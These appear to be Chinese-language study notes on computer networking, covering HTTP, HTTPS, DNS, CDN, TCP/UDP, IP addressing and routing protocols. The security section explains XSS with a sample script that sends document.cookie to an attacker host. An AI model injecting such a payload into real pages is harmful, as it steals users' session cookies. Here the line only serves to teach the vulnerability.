# 1. The Internt

什么是网络?

> the internet is a network of networks


## 1.1 网络特点

* 大文件被拆分为packet的传输
* packet达到次序不一定是发送次序且可能丢失
* 当网络拥塞时(路由器的等待队列满了), 会丢弃新收到的packet


## 1.2 网络性能度量

节点延迟

```
节点延迟 = 路由延迟 + 数据包排队延迟 + 传输延迟 + 传播延迟
```


吞吐量

```
吞吐量 = 接收方通过网络接收数据的速率 (bits/sec)
当多个link串联时, 总的吞吐量取决于吞吐量最小的link(瓶颈原理)
```

## 1.4 网络安全

常见的通过网络的攻击方式

```
* denial-of-service (DoS) attacks
* packet sniffer获取数据报
* IP欺骗(可以轻易发送一个包含任意源ip, 目标ip的packet)
```

常见Dos攻击

```
1. 带宽泛洪攻击: 发送大量packet到目标host导致主机的link阻塞
2. 连接泛洪攻击: 发送大量TCP半连接, 导致host不能响应合法连接
3. 漏洞攻击: 发送特定的请求引发目标主机上的应用/OS漏洞
```

对称加密和非对称加密

```
对称加密: 加密和解密使用同一个密钥
非对称加密: 加密使用公钥, 解密使用私钥, 更安全但速度慢
```

XSS

```
XSS（Cross Site Scripting）攻击是一种常见的Web安全漏洞，攻击者利用这个漏洞向页面中注入恶意脚本代码，当用户浏览网页时，恶意脚本会被执行，从而盗取用户的敏感信息或进行其他恶意行为。
例如用户在评论区输入
<script>document.location.href='http://attacker.com/?cookie='+document.cookie;</script>
如果不验证用户输入是否有问题会导致cookie泄漏
```

## 1.5 OSI七层和TCP/IP五层



## 1.6 URL和URI

一个URL(统一资源定位符)用来定位互联网上的主机上的唯一的资源, 格式为

```
scheme://host[:port]/path/[?query-string][#anchor]
```

由于url规定只能使用ascii编码中的可见字符, 所以需要对汉字等特殊字符进行url编码( 特殊字符使用 %+编码)

**URI是一个抽象概念**, 泛指资源标识, URL属于URI, xxxxx@qq.com也属于URI

# 2. Application Layer

## 2.2 Http介绍

请求格式


> CRLF是windows中的换行符 CR是Mac 换行符, LF是Unix中的换行符

响应格式



常见的请求方法

```
GET: 获取对象
POST: 新增对象
PUT: 更新对象
DELETE: 删除对象
```

常见响应码

```
200: ok
301: 永久重定向
302: 临时重定向
400: 请求格式错误(请求体/query参数错误)
401: 认证失败
403: 权限不足
404: not found
500: 服务器内部错误
```

cookie&session

```
* 响应头中set-cookie字段表示浏览器需要新建一个cookie(键值对+过期时间+生效路径)
* 每次向同域名发送请求时请求头中需要携带cookie
* 一个特殊的cookie(key=sessionid)用来给服务器区分HTTP连接对应的session对象
```

## 2.4 HTTP各版本区别

HTTP1.0

```
只支持短连接: 每次请求都需要新建一个TCP连接
队头堵塞问题: HTTP1.0规定上一个请求得到响应后才可以发送下一个请求
```

HTTP1.0 => HTTP1.1

```
* 默认支持长连接: HTTP header中Connection:keep-alive/false设置是否复用TCP连接
* 缓存控制: HTTP header中cache-control字段, 开启缓存后再请求时不会真正发送请求
```

HTTP1.1 => HTTP2.0

```
* 多路复用: 服务器可以将一个消息拆分为更小的帧, 并行返回不同消息的帧(解决了队头阻塞问题)
```

HTTP2.0 => HTTP3.0

```
使用udp/quic替换tcp来解决传输层队头堵塞问题
```

## 2.5 Https

HTTPS协议是通过http协议通信, 但对通信内容使用SSL协议进行加密, 默认端口443

SSL/TLS协议握手过程

```
1. 客户端向服务器发送一个“hello”消息, 服务器返回"hello"发送其数字证书，协商好要使用的密码套件和协议版本并交换随机数
2. 客户端通过CA验证数字证书, 验证成功后使用服务器的公钥加密主密钥并发送给服务器
3. 服务器使用自己的私钥解密客户端的主密钥，双方利用两次随机数和主密钥生成对称密钥, 之后使用
   对称密钥加密通信, 握手结束
```


## 2.6 DNS

*DNS服务:  将请求中的域名转成ip地址, **DNS服务器****默认端口53***

域名服务器分级, 根域名服务器和顶级域名服务器都有镜像服务器



从域名到ip的过程

```
1. 查询本机dns缓存
2. 查询本地dns服务器
3. 本地dns服务器 => root dns服务器, 获取顶层dns服务器ip
4. 本地dns服务器 => 顶层dns服务器, 获取权威dns服务器ip
5. 本地dns服务器 => 权威dns服务器, 获取hostname对应的ip
6. 本地dns服务器返回ip
```

如果域名的ip变更会发生什么?

```
客户端通过dns/缓存获取到的ip是变更前的ip地址!!!
需要等待本地域名服务器缓存, 本机域名缓存失效后重新请求更高级的域名服务器, 新的ip才会生效
```

## 2.7 CDN

CDN(Content Delivery Network)的工作原理

```
将源站的资源缓存到位于网络边缘的CDN节点, 用户请求资源时，就近返回节点上缓存的资源, 避免源站点网络拥塞, 并加快用户的访问速度
```

**CDN应用场景:** 视频点播, 视频直播, 静态资源加速

CDN是如何实现同一个域名访问的确是不同的网络边缘节点的?


> A记录: 域名 => ip
>
> CNAME记录:  域名 => 域名
>
> MX记录: 邮件域名(qq邮箱的邮件域名为qq.com) => 邮件服务器域名/ip

## 2.8 其他协议

FTP协议用于文件传输



邮件传输协议SMTP, IMAP



# 3. Transport layer

## 3.1 UDP

UDP Heade


> TCP 会建立连接, 提供可靠的服务, 会进行拥塞控制和流量控制
>
> UDP 提供不可靠的服务

两者在应用层中使用情况



## 3.2 TCP介绍

TCP Header


*注意: 其中序列号是数据负载起始位置的序列号, 1byte=1个序列*

## 3.3 TCP连接的建立和关闭

### 3.3.1 三次握手建立连接



初始序列号x, y动态生成

* **TCP为什么不是两次握手?**

假如是两次握手, 客户端的连接请求在网络中延迟时, 服务器会直接建立连接等待客户端发送报文, 但此时客户端认为服务器拒绝连接不会发送报文/重新发送连接请求, 会浪费服务器的资源.

### 3.3.2 四次挥手关闭连接



* **为什么需要四次挥手?**

TCP是全双工通信, 客户端和服务端都需要发送断开连接请求表示自己不会再接收报文, 都需要响应对方的断开连接请求避免对方认为网络问题重发请求

* **为什么等待2MSL而不是1MSL**

2MSL包含第四次挥手的时间和第四次挥手失败服务器重发第三次挥手的时间

## 3.4 TCP可靠性的实现

总结: 滑动窗口+超时重传+冗余ACK快重传

* 滑动窗口实际上就是发送/接收缓存
* 超时重传

> 重传间隔时间由为RTT加权后的RTTs, RTTs可以反映网络情况

* 冗余ACK: 多次接收到已经发送的报文的ack=x则直接重传不必等待超时

## 3.4 TCP拥塞控制

如何控制拥塞窗口的大小?

* 窗口增长方式: 低于阈值指数增长, 超过阈值线性增长
* 网络拥塞后将拥塞窗口大小设置为最小值1, 并将阈值降低为发生拥塞时窗口大小的1/2



## 3.5 TCP流量控制

接收方响应的TCP header中rwnd字段设置发送方滑动窗口的大小

当接收方滑动窗口满了, 可以设置rwnd = 0

```
发送方滑动窗口大小 =  min(rwnd, 拥塞窗口大小)
```

## 3.6 TCP粘包

TCP粘包是指在TCP协议中，**发送端连续发送的多个小数据包在传输过程中可能被合并成一个大数据包发送**，接收端收到后需要进行拆包操作。

通常需要按照以下方法来解决:

```
数据包中添加特殊字符来标识数据包的结束位置/分界标志
```


# 4. Network Layer

## 4.1 IP

IP header



> 协议字段表示数据部分采用的协议(ICMP/OSPF)

## 4.2 IP地址的分类划分

> 所有IP地址划分方式中: 主机号全0 = 网络的地址, 主机号全1 = 网络中的广播地址

IP地址的分类划分中网络号长度固定为8/16/24

A类地址(网络号0-127)


```
网络号127 = 本地环回网络, 网络号0不可用
```

B类地址(网络号128-191)


C类地址(网络号192-223)


多播地址和保留地址(网络号224+)


## 4.3 IP地址的子网划分

子网划分中**网络号长度不固定, 根据子网掩码确定网络号长度**, 子网掩码为1的部分对应网络号


## 4.4 IP地址CIDR划分

使用斜线+网络号长度


## 4.5 路由器配置

默认网关

```
在同一子网下的主机通信不需要通过路由器, 直接通过交换机即可; 
在不同子网下的主机通信需要路由器转发, 默认网关就是主机在它所属子网下的路由器接口的IP地址
```



静态路由配置

```
对于网络拓扑变化不频繁的网络, 路由器的路由表可以人工配置
```

动态路由配置

```
动态路由配置通过路由器直接交换路由表实现, 具体可分为内部和外部路由协议
```



> 一个自治系统中所有路由器的路由协议一致且自治相同内部路由器可以相互连通

## 4.6 RIP&OSPF&BGP

RIP(基于UDP)

```
RIP协议中, 每个路由器维护到特定网络需要的跳数(>=16表示网络不可以到达), 
在直接相连网络变化时/RIP周期达到时,  发送RIP交换报文给相邻的路由器用于更新他们的路由表
路由器转发数据报时转发到最短跳数对应的接口中
```


OSPF(基于IP)

```
网络中所有路由器都维护一个相同的整个网络拓扑图(节点由路由器和网络构成), 根据dijkstra算法直接计算最短路径
每个路由器有一个相邻路由器表, 相邻路由器之间发送不同的报文用于交换和确认信息
```



BGP协议用于不同自治系统的边界路由器路由信息交换

## 4.7 ICMP

ICMP报文分为差错报告报文和ICMP请求报文

```
 差错报告报文: 当数据报文在网络中传送发生异常时(丢弃/不可达/校验码错误/TTL过期), 会给源主机发送ICMP报文通知源主机
```


```
终点不可达: 路由器不知道如何转发报文时发出
源点抑制: 路由器知道如何转发报文, 但转发到的链路阻塞时发出
时间超过: 路由器收到TTL = 0 的报文时发出
参数问题: 路由器收到校验码错误的报文时发出
```

ICMP报文应用

* traceroute, 通过发送TTL递增的数据报实现
* ping, 通过向主机发送ICMP请求报文, 主机回复ICMP报文实现

## 4.8 VPN&NAT

VPN

```
将私有网络之间的IP数据报加密并封装成公共网络之间的IP数据报, 利用公共网络传输, 传输到目的私有网络后再解封装, 再传输到私有网络中的主机上
```

IP地址中10/192.168等开头的地址是私有网络中的地址


NAT

```
私有网络中的主机使用私有IP地址, 通过NAT路由器与公网连接
数据报在经过NAT路由器后会将私有网络的IP映射为NAT拥有的公网IP, 公网IP可以复用
```



## 4.9 DHCP

# 5. link layer
